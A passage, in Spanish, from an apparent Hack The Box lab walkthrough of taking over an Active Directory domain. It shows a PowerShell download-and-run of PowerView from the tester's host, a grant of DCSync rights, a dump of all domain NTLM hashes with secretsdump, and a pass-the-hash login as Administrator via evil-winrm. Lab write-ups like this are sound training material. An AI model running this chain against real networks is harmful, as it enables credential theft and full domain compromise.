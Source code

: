 ```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.22/PowerView.ps1')
```

![imagen](https://github.com/user-attachments/assets/a79698e0-9d57-46ca-9d33-3d6e423a86ab)

Ahora podemos ejecutar los siguientes comandos para otorgar al usuario `pablo` el derecho **DCSync** en el dominio "**DC=htb,DC=local**".

```bash
$SecPassword = ConvertTo-SecureString 'password123$' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\pablo', $SecPassword)
Add-DomainObjectAcl -PrincipalIdentity pablo -Credential $Cred -TargetIdentity "DC=htb,DC=local" -Rights DCSync
```

![imagen](https://github.com/user-attachments/assets/e4546e39-8578-4841-ae8b-924b901a7851)

Ahora podemos utilizar el script `secretsdump.py` de Impacket, ejecutándolo como `pablo`, para revelar los hashes NTLM de todos los usuarios del dominio.

```bash
impacket-secretsdump htb.local/pablo:'password123$'@10.10.10.161
```

![imagen](https://github.com/user-attachments/assets/d966c860-5582-4488-873b-c907c1d7aa84)

Verificamos con el hash del usuario `Administrator` si podemos establecer una sesión con WinRM.

```bash
netexec winrm 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'
```

![imagen](https://github.com/user-attachments/assets/3467945d-8a42-41f1-9c06-e06ed9494479)

Habiendo confirmado que es posible, procedemos a acceder como usuario `Administrator` utilizando **Evil-WinRM**.

```bash
evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'
```

![imagen](https://github.com/user-attachments/assets/72d3604a-e803-466a-8f92-cbca2c34ecd7)

Máquina vulnerada.
